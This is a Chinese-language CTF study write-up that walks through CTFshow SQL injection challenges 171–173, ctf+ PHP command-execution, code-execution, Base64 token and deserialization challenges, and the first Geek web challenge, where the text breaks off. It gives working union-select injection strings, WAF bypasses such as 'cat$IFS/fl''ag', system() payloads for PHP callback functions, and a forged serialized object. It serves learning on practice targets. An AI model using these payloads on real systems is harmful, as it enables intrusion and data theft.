## 本周总结

本周主要围绕 CTF Web 方向展开：完成 CTFshow SQL 注入 171–173 题，ctf+ 平台 5 道（RCE 命令执行、代码执行、Token 验证、反序列化等），以及 Geek 平台 5 道（保卫玉米、ezphp、术之尽头、丹特丽安の書架藏书检索、ezpop）。每道题都整理了思路、payload 和踩坑记录，方便后续复盘。
# php学习文档&&wp

***
## 目录


* [一.CTFshow SQL](#一ctfshow-sql)
  
  * [171题](#171题)
  * [172题](#172题)
  * [173题](#173题)
  
* [二.ctf+](#二ctf)
  * [第 1 题 Web RCE 命令执行 终端特殊字符](#第-1-题-web-rce-命令执行-终端特殊字符)
  * [第 2 题 Web RCE PHP 代码执行函数](#第-2-题-web-rce-php-代码执行函数)
  * [第 3 题 Web RCE 7 字符限制命令执行](#第-3-题-web-rce-7-字符限制命令执行)
  * [第 4 题.Web-基础 Token 验证 Base64](#第-4-题-web-基础-token-验证（Base64）)
  * [第 5 题 Web 反序列化 PHP 反序列化](#第-5-题-web-反序列化-php-反序列化)
  
* [三.Geek](#三geek)
  * [一.保卫玉米](#一保卫玉米)
  * [二.ezphp](#二ezphp文件写入漏洞)
  * [三.术之尽头](#三-术之尽头)
  * [四.丹特丽安の書架藏书检索](#四-丹特丽安の書架藏书检索)
  * [五.ezpop.](#五-ezpop)
*
*
*
*
*
*
*
*
*
*
*
*
*

*
*
*
*
*
*
*


---
#  一.CTFshow SQL 
## 171题

1.**关键过滤**：`username != 'flag'` —— 说明数据库里**有个用户叫 flag**，但直接被过滤，正常查询**查不到它**。flag 很可能就藏在这条记录里

### 2.联合查询：**原理**：`union select` 能在原查询结果后面**再附加一段你自己写的查询**，而这第二段查询**不受** `username !='flag'` 的限制

### 3.%23是#在url的编码.

### 4.这段 `".$_GET['id']."` 是 PHP 的**字符串拼接**，正是漏洞的 "罪魁祸首"。

### 5.username !='flag'(username=flag被过滤了)
 id = '".$_GET['id']."' limit 1;";(对应)
 ...id = '  +  用户输入  +  ' limit 1;
 
### 6.`$_GET['id']` 是什么
 `$_GET` 是 PHP 的**超全局数组**，专门存 **URL 里 `?` 后面的参数**。
 

### 7.
 - **左边**：`username!='flag'` 且 `id=1` → 查出 admin（正常用户）
- **右边**：`username='flag'` → 把 flag 行也**拉进来**

因为 `OR`，**只要右边成立**（用户名是 flag），这行就会被选中 → 绕过了 `!=flag` 的排除。

**一句话**：`and` 要求两边都成立（收紧），`or` 只要一边成立（放宽）。出题人用 `!=flag and` 想挡住你，你用一个 `or username='flag'` 把 "后门" 打开，flag 就溜出来了。


### <font color="red">8.综上
```
$sql = "select username,password from user where 
username !='flag' and id = '".$_GET['id']."' limit 1;";
```
".$_GET['id']."是一个注入点，用户输入的id会在这里
先用1'将前面的username !='flag' and id = '1'闭合后面的就变成了代码sql可以被机器执行。
再用or绕过and前面的过滤

where (username !='flag' and id='1')   OR   (username='flag')

最后构造成的payload：1' or username=flag %23
要用#(也就是%23注释掉)' limit 1;"
否则多出来的 `'` 让引号不配对 → **SQL 语法错误**，整个查询失败。
</font>


---

## 172题
### 1.
```
$sql = "select username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```
### 2.由题我们可以得知：用户输入依旧是在".$_GET['id']."被拼接进代码。此题直接查flag用户拿到密码是不行的被过滤了。

### 3.因为有了//检查结果是否有flag
```
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```
所以传统的or，and已经不能绕过！flag了
### 4.**<font color="red">因此要用联合查询(union),他的使用准则是</font>**
      1. **前后两条 select，列数量必须一样**
原查询查几列，union 后面也必须写相同列数。
例：原语句 `select username,password` 2 列，后面也要 2 个字段。
2. **对应位置的数据类型尽量兼容**
第一列对第一列、第二列对第二列，类型差别太大可能报错。
3. **默认 UNION 自动去重；UNION ALL 不去重，速度更快**
CTF 注入一般用 `union select` 就行，不需要 all。
4. **union 是拼接两个查询的结果集，不是把条件拼在一起**
前后是两条独立查询，where 条件互不干扰。
5. **想只显示后面注入的结果：让前面查询查不到数据**
常用 `id=-1`，前面返回空，页面只会输出我们构造的数据。
6. **limit 只作用于离它最近的那一条 select，不是全局**
如果要限制 union 整体结果，要给整个语句加括号。
7. **order by 排序也是作用整个合并后的结果集**


> 一句话速记：**列数相等、位置对齐、类型兼容；前句置空，只看我们的数据**


### 5.所以先用-1'闭合前面的查询让前面查询查不到信息(因为题目数据库里无-1=id)

### 6.后面按照他给的select格式写得出select 'hack' union,password from ctfshow_user2 where username='flag'


### 7.因为后面有' limit 1;";
- 而其作用；**只取出满足条件的第 1 条数据**
前面写 `-1' union select ...`，闭合之后，`limit 1` 挂在原来的查询上，不影响我们构造的查询需要构造and'1'='1闭合
<font color="red">1. 逻辑上：`A and 恒真`，结果就等于 A。**不会改变前面 `username='flag'` 的筛选效果**。
2. 主要目的是**闭合 SQL 语法**：
前面我们用单引号把语句打开了，末尾用 `and '1'='1` 把剩下多余的引号给对上，防止语法报错。</font>

- `$row->username`：取出这一行里面 username 字段的值
- 代码判断：如果这一行的 username **不是 flag**，才正常返回数据给页面
- 如果 `$row->username` 等于 flag，就不返回数据，flag 被拦截


  
### 8.在 SQL 里，**带单引号的字符串常量，写在 select 后面，就会原样输出**，不从数据表读取。

(1)SQL 的 `select` 不光可以查表里面的字段，还可以直接写常量、数字、字符串，直接当成一列结果输出。

(2)where username='flag'去找表里满足这个条件的**那一行**（找到 username 是 flag 的记录）

(3)select 'hack',password找到了之后，**不要把这行原本的 username 拿出来**，我要输出我指定的内容：
第一列输出常量 `hack`，第二列输出**那一行的** password。


---

## 173题
### 1.**`hex()` 是 MySQL 自带函数**，在数据库执行 SQL 的时候就完成转换了。
(我们做题的 ctfshow 靶机服务器上面都有装Mysql故而mysql函数我们可以直接用)

### 2.源码解释<font color="red">//检查结果是否有flag</font>
```
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }</font>
    (1) `json_encode()` 是 PHP 自带函数：**把 PHP 里面的数组 / 对象，转换成一串 JSON 格式的字符串**。
    (2)PHP 里的结果 `$ret` 是数组


    ps:$ret[
      "id"=>"2",
      "username"=>"hack",
      "password"=>"flag{abc}"
    ]
    经过json_encode($ret)变成字符串{"id":2,"username":"hack","password":"flag{abc}"}
```
### 3.<font color="red">**正则表达式（regex）**：是一套专门用来**描述文本匹配规则**的语言，用来告诉程序 “我要找什么样的文字”。</font>
本题的正则是'/flag/i'原理是
- 前后的 `/` 是正则的**分隔符**，标记规则的开头和结尾
- `flag`：代表要精准匹配这 4 个连续字母
- 末尾的 `i`：修饰符，意思是 **ignore（忽略大小写）**

举例子：
`/flag/i` 可以匹配：`flag`、`FLAG`、`Flag`、`fLaG`

### 4.`preg_match()` 是 PHP 的正则匹配函数。
语法 ==preg_match(正则规则, 被搜索的文本)==
本题==preg_match('/flag/i', json_encode($ret))==
所以如果有flag这会报错
```
!preg_match的意思是如果未有flag字样则$ret['msg']='查询成功';
```
### 5.<font color=blue>因为会查flag所以</font>
我们不能直接把 flag 放在返回结果里直接输出，要**绕开这个正则匹配**。
常用办法：`hex()` 编码，把 password 里的 flag 转成十六进制，结果里就不会出现 `flag` 这个字符串，避开正则。
### 6.其余与前两个题一样故payload：-1' union select 3,'hack',password from ctfshow_user3 where username='flag' and '1'='1
payload:-1' union select 3,'hack',hex(password) from ctfshow_user3 where username='flag' and '1'='1
<font color="red">因为flag形式是ctf{}里面没有flag故而可以不用hex,正则 `/flag/i` 只要在字符串里**找到这四个连续字母就算匹配成功**而flag是password在字符串里</font>

---


# 二.ctf+
## 第 1 题 Web RCE 命令执行 终端特殊字符
# 1.源码
```php
<?php
function hello_shell($cmd)
{
    if(preg_match("/flag| /", $cmd
)){
        die("WAF!"
);
    }
    system($cmd
);
}
isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null
;
highlight_file(__FILE__
);
?>
```
解析：(1)空格过滤：preg_match("/flag| /", ...) 拦截了空格字符
      (2) 关键字过滤：拦截了连续字符串 flag

### 2.<font color="red">补充知识点</font>
 - `$_GET['cmd']`：接收 URL `?` 后面名为 `cmd` 的查询参数
 - `isset()`：判断变量是否存在且不为 null，相当于"开关"
 - 三元运算符：`条件 ? 值A : 值B`（成立取 A，不成立取 B）
 - `function`：定义一段可重复调用的代码块
  

### 3.绕过思路（层级差异）

> WAF 在 PHP 层检查字符串，shell 在 bash 层做展开，两者看到的字符串不一样。

| 被过滤 | 绕过方法 | 原理 |
|--------|---------|------|
| 空格 ` ` | `$IFS` | bash 环境变量，默认值 = 空格+Tab+换行，展开后成为分隔符 |
| `flag` 连续串 | `fl''ag` | 单引号空串截断，正则看不到连续 flag，bash 拼回 flag |
### 4.构造payload
```
?cmd=cat$IFS/fl''ag
```
```c
成功原理：WAF 层看到：cat$IFS/fl''ag   ← 无空格、无连续 flag → 放行
bash 层执行：cat /flag        ← $IFS→空格，''→拼回 flag
```
```c
补充其他空格绕过方法
WAF 层看到：cat$IFS/fl''ag   ← 无空格、无连续 flag → 放行
bash 层执行：cat /flag        ← $IFS→空格，''→拼回 flag
cat</flag          # < 输入重定向，不需要空格
```
---
## 第 2 题 Web RCE PHP 代码执行函数
### 1.源码
```php
function hello_ctf($function, $content){
    global $flag;
    $code = $function . "(" . $content . ");";
    eval($code);
}

function start($act){
    $random_func = get_fun();   // 随机抽一个函数
    if($act == "r"){
        session_unset();        // 重置随机函数
        session_destroy();
    }
    if($act == "submit"){
        $user_content = $_POST['content'];
        hello_ctf($random_func, $user_content);
    }
}
```
### 2.解析
- 服务器从 10 个 PHP 函数中随机抽一个：`eval / assert / call_user_func / create_function / array_map / call_user_func_array / usort / array_filter / array_reduce / preg_replace`
- 把你的 `content` 拼进函数调用里用 `eval()` 执行
- flag 存在全局变量 `$flag`
(1)<font color="red">两种不同请求方式,作用不同</font>
```
GET  ?action=r        → 重置随机函数
POST ?action=submit   → 提交 content 参数
```
(2)<font color="blue">补充十个函数的解析</font>
### 各函数 Payload 对照表

| 抽到的函数 | Payload（content） | 原理 |
|-----------|-------------------|------|
| `eval` | `system("cat /flag")` | eval 直接执行字符串 |
| `assert` | `'system("cat /flag")'` | assert 把字符串当代码执行 |
| `call_user_func` | `'system','cat /flag'` | 第一个参数是函数名，后面是参数 |
| `call_user_func_array` | `'system',array('cat /flag')` | 第二个参数是参数数组 |
| `usort` | `$a=array('cat /flag',1),'system'` | 第一个参数必须是变量（按引用传递） |
| `preg_replace` | `'/a/e','system("cat /flag")','a'` | `/e` 修饰符把替换内容当代码执行 |
| `array_map` | `'system',array('cat /flag')` | 第一个是回调函数，第二个是数组 |
### 3.解题过程中我经常犯的错
- Session 不保持：Burp 没带 PHPSESSID cookie → 每次都是新函数。解决：先 GET 拿 cookie，再带同一 cookie 发 POST。
- GET/POST 搞混：GET 不会发送 body，必须用 POST。
- usort 按引用传递：第一个参数必须是变量，先  $a=array(...)  赋值
### 4.最终我所构成的payload(以usort为例)
```http
POST /?action=submit HTTP/1.1
Host: <目标域名>
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<session值>

content=$a=array('cat /flag',1),'system'
```
### 5.总结解题思路
1. 看源码拼接： call_user_func( 我们的content ) 
2. 查手册： call_user_func(函数名, 参数1, 参数2...) 
3. 目标是执行  system('cat /flag')  → 填  'system','cat /flag' 
---
## 第 3 题 Web RCE 7 字符限制命令执行
### 1.源码
```php
function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```
### 2.解析
- <font color="red">命令长度被限制在 7 个字符以内</font>(从题目可得7 characters RCE)
- 需要找到正确的参数名
### 3.解题思路
1. **找参数名**：依次试 `?cmd=`、`?c=`、`?x=` 等，直到 `?1=ls` 成功列出文件
   - 参数名是 `1`（服务器写死的）
2. **查看目录**：`?1=ls` 显示当前目录有 `2` 和 `index.php`
3. **读 2 文件**：`?1=cat 2` 输出 `5`，不是 flag
4. **去根目录找**：`?1=cat /f*` 输出 flag
### 4.构造payload
```c
?1=cat%20/f*
```
### 5.解析
- 1  = 参数名
- cat /f*  = 6 个字符（c-a-t-空格-/-f-*）
-  /f*  = 根目录下以 f 开头的文件（通配符  *  匹配到  /flag ）
### 6.<font color="red">我踩过的坑</font>
- URL 里不能写原始空格，要编码成  %20 ，否则返回  400 Bad Request 
- 参数名不对会报 too long，要先确认正确的参数名
---
## 第 4 题 Web 基础 Token 验证-Base64
### 1.源码

```php
if (isset($_GET['token'])) {
    $token = $_GET['token'];
    if (base64_decode($token) === 'guest') {
        echo "flag{...}";
    }
}
```
### 2.解析
- Base64 编码/解码
- `base64_decode()` 把传入的 token 解码后与 `guest` 比较

### Payload

```
?token=Z3Vlc3Q=
```

- `Z3Vlc3Q=` 是 `guest` 的 Base64 编码
- 服务器解码后等于 `guest` → 输出 flag

### 3.思路

```
我们要传的值 = base64_encode("guest") = Z3Vlc3Q=
服务器：base64_decode(Z3Vlc3Q=) = guest === guest → 通过
```

---
## 第 5 题 Web 反序列化 PHP 反序列化
### 1.源码
```php
<?php
include("flag.php");
highlight_file(__FILE__);

class mylogin{
    var $user;
    var $pass;

    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }

    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}

$a = unserialize($_GET['param']);
if($a->login())
{
    echo $flag;
}
?>
```
### 2.解析
- PHP 序列化 / 反序列化
- `unserialize()` 把用户可控的字符串还原成对象（反序列化漏洞）

### (1)构造思路

1. 看类定义：类名 `mylogin`，属性 `$user`、`$pass`
2. 看验证条件：`$user == "daydream"` 且 `$pass == "ok"`
3. 构造一个属性满足条件的对象并序列化

### (2)序列化字符串

```
O:7:"mylogin":2:{s:4:"user";s:8:"daydream";s:4:"pass";s:2:"ok";}
```
拆解：

| 部分 | 含义 |
|------|------|
| `O:7:"mylogin":2:` | Object，类名 mylogin（7字符），2 个属性 |
| `s:4:"user"` | 属性名 user（4字符） |
| `s:8:"daydream"` | 属性值 daydream（8字符） |
| `s:4:"pass"` | 属性名 pass（4字符） |
| `s:2:"ok"` | 属性值 ok（2字符） |
### (3)用 PHP 代码生成（熟悉工具）

```php
<?php
class mylogin {
    var $user;
    var $pass;
}
$obj = new mylogin();
$obj->user = "daydream";
$obj->pass = "ok";
echo serialize($obj);
?>
```

输出即上述序列化字符串。注意：要在能执行 PHP 的在线工具（如 onlinephp.io / tool.lu/php）里跑，把类定义、对象创建、serialize 都写进代码，而不是把代码当字符串喂给工具。

---

## 三.Geek

### 由于接下来会大量用控制台构造fetch请求发送payload所以简介一下
```php
fetch
  （目标地址：网址(参数名)+配置(用什么方法、传什么数据;)==放一个 "能骗过校验、还能执行代码" 的地址。）
{
  
  method: 'POST',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'cmd=...'
}
<font color="red">析：配置可以不写
不写第二个配置：默认发起 **GET 请求**
只有你需要 POST、加请求头、传请求体、改 cookie 策略的时候，才需要写第二个配置对象
```


## 一.保卫玉米
### 1.解读

<font color="red">因为由题可知method(请求方式为GET，又知道只有登记为厨师才能发出接入请求，所以直接在URL拼接/?name=cornguard，登录厨师账号)</font>


### 2.尝试发送
构造post请求(用浏览器自带的控制台)
```c
fetch('/join', {
  method: 'POST',
  headers: {
    'X-HTTP-Method-Override': 'POST',
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'action=join&name=cornguard'
}).then(r=>r.text()).then(t=>console.log(t))
```
详解js浏览器控制台构造规则。
- 第一层.fetch(请求地址, 配置对象)
第一个参数`'/join'`请求发到哪个地址
第二个参数`{...}`配置：方法、头、body
*
*
- 第二层.method — 请求方法
headers — 请求头
请求头	值	作用
X-HTTP-Method-Override	POST	告诉服务器："虽然我发的是 POST，但你要按 POST 逻辑处理"—— 这是本题的绕过关键
Content-Type	application/x-www-form-urlencoded	告诉服务器：body 里的数据是表单格式（key=value&key=value）
表单就相当于bp post包里请求体(相当于页面上的登录框)
*
*
- body 请求体
body: 'action=join&name=cornguard'
body 里就是我们要提交的数据，格式是 `参数名=值&参数名=值`：
`action``join`告诉服务器：我要执行 "加入 / 提交回执" 这个操作`name``cornguard`告诉服务器：我是 cornguard 厨师
*
*
- 第三层 拿到响应
.then(r=>r.text())   // 把响应内容转成文本
